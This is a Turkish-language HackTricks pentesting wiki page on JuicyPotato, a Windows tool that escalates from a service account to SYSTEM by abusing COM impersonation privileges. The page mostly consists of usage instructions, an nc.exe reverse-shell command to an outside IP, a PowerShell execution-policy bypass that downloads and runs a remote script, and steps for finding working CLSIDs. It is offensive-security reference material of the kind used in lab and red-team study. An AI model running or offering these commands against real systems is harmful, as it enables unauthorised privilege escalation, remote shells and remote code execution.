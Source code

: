 # JuicyPotato

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi** **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking ipuçlarını paylaşın,** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

{% hint style="warning" %}
**JuicyPotato,** Windows Server 2019 ve Windows 10 build 1809 ve sonrasında **çalışmaz.** Ancak, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato) ile **aynı ayrıcalıkları kullanarak `NT AUTHORITY\SYSTEM`** düzeyinde erişim elde edebilirsiniz. _**Kontrol Et:**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (altın ayrıcalıkları kötüye kullanma) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_**RottenPotatoNG**_ [_sürümünün şekerli bir versiyonu,_](https://github.com/breenmachine/RottenPotatoNG) _biraz meyve suyu ile, yani **Windows Servis Hesaplarından NT AUTHORITY\SYSTEM** düzeyine başka bir Yerel Ayrıcalık Yükseltme aracı._

#### Juicypotato'yu [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts) adresinden indirebilirsiniz.

### Özet <a href="#summary" id="summary"></a>

[**Juicy-potato Readme'den**](https://github.com/ohpe/juicy-potato/blob/master/README.md)**:**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) ve onun [varyantları](https://github.com/decoder-it/lonelypotato), [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [servisine](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126) dayanan ayrıcalık yükseltme zincirini kullanır ve `127.0.0.1:6666` üzerinde MiTM dinleyicisi vardır ve `SeImpersonate` veya `SeAssignPrimaryToken` ayrıcalıklarına sahip olduğunuzda çalışır. Bir Windows build incelemesi sırasında, `BITS`'in kasıtlı olarak devre dışı bırakıldığı ve `6666` portunun alındığı bir kurulum bulduk.

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG)'yi silahlandırmaya karar verdik: **Juicy Potato'ya merhaba deyin.**

> Teori için, [Rotten Potato - Servis Hesaplarından SYSTEM'e Ayrıcalık Yükseltme](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) sayfasını inceleyin ve bağlantılar ve referanslar zincirini takip edin.

`BITS` dışında, kötüye kullanabileceğimiz birkaç COM sunucusu olduğunu keşfettik. Bunların sadece:

1. mevcut kullanıcı tarafından örneklendirilebilir olması, genellikle taklit ayrıcalıklarına sahip bir "servis kullanıcısı"
2. `IMarshal` arayüzünü uygulaması
3. yükseltilmiş bir kullanıcı (SYSTEM, Administrator, …) olarak çalışması gerekir.

Biraz test yaptıktan sonra, birkaç Windows sürümünde [ilginç CLSID'lerin](http://ohpe.it/juicy-potato/CLSID/) kapsamlı bir listesini elde ettik ve test ettik.

### Juicy detaylar <a href="#juicy-details" id="juicy-details"></a>

JuicyPotato, size şunları sağlar:

* **Hedef CLSID** _istediğiniz herhangi bir CLSID'yi seçin._ [_Burada_](http://ohpe.it/juicy-potato/CLSID/) _işletim sistemine göre düzenlenmiş listeyi bulabilirsiniz._
* **COM Dinleme portu** _tercih ettiğiniz COM dinleme portunu tanımlayın (hardcoded 6666 yerine)_
* **COM Dinleme IP adresi** _sunucuyu herhangi bir IP'ye bağlayın_
* **İşlem oluşturma modu** _taklit edilen kullanıcının ayrıcalıklarına bağlı olarak şunlardan birini seçebilirsiniz:_
* `CreateProcessWithToken` (gerekli `SeImpersonate`)
* `CreateProcessAsUser` (gerekli `SeAssignPrimaryToken`)
* `her ikisi de`
* **Başlatılacak işlem** _sömürü başarılı olursa bir yürütülebilir dosya veya betik başlatın_
* **İşlem Argümanı** _başlatılan işlem argümanlarını özelleştirin_
* **RPC Sunucu adresi** _gizli bir yaklaşım için harici bir RPC sunucusuna kimlik doğrulaması yapabilirsiniz_
* **RPC Sunucu portu** _harici bir sunucuya kimlik doğrulaması yapmak istiyorsanız ve güvenlik duvarı `135` portunu engelliyorsa…_
* **TEST modu** _temelde test amaçlıdır, yani CLSID'leri test etmek için. DCOM oluşturur ve token kullanıcısını yazdırır. _[_test için buraya bakın_](http://ohpe.it/juicy-potato/Test/)

### Kullanım <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### Final thoughts <a href="#final-thoughts" id="final-thoughts"></a>

[**From juicy-potato Readme**](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts)**:**

Eğer kullanıcının `SeImpersonate` veya `SeAssignPrimaryToken` ayrıcalıkları varsa, o zaman **SYSTEM**'siniz.

Tüm bu COM Sunucularının kötüye kullanımını önlemek neredeyse imkansızdır. Bu nesnelerin izinlerini `DCOMCNFG` aracılığıyla değiştirmeyi düşünebilirsiniz ama iyi şanslar, bu zorlayıcı olacak.

Gerçek çözüm, `* SERVICE` hesapları altında çalışan hassas hesapları ve uygulamaları korumaktır. `DCOM`'u durdurmak kesinlikle bu istismarı engelleyecektir ancak temel işletim sistemi üzerinde ciddi bir etki yaratabilir.

From: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## Examples

Note: Visit [this page](https://ohpe.it/juicy-potato/CLSID/) for a list of CLSIDs to try.

### Get a nc.exe reverse shell
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### Powershell rev
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### Yeni bir CMD başlatın (eğer RDP erişiminiz varsa)

![](<../../.gitbook/assets/image (300).png>)

## CLSID Problemleri

Çoğu zaman, JuicyPotato'nun kullandığı varsayılan CLSID **çalışmaz** ve exploit başarısız olur. Genellikle, **çalışan bir CLSID** bulmak için birden fazla deneme gerekir. Belirli bir işletim sistemi için denemek üzere CLSID'lerin bir listesini almak için bu sayfayı ziyaret etmelisiniz:

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **CLSID'leri Kontrol Etme**

Öncelikle, juicypotato.exe dışında bazı çalıştırılabilir dosyalara ihtiyacınız olacak.

[Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1) dosyasını indirin ve PS oturumunuza yükleyin, ardından [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1) dosyasını indirin ve çalıştırın. Bu script, test edilecek olası CLSID'lerin bir listesini oluşturacaktır.

Sonra [test\_clsid.bat](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat) dosyasını indirin (CLSID listesi ve juicypotato çalıştırılabilir dosyası için yolu değiştirin) ve çalıştırın. Her CLSID'yi denemeye başlayacaktır ve **port numarası değiştiğinde, bu CLSID'nin çalıştığı anlamına gelecektir**.

**Çalışan** CLSID'leri **-c parametresini kullanarak kontrol edin**

## Referanslar

* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)


{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.**

</details>
{% endhint %}
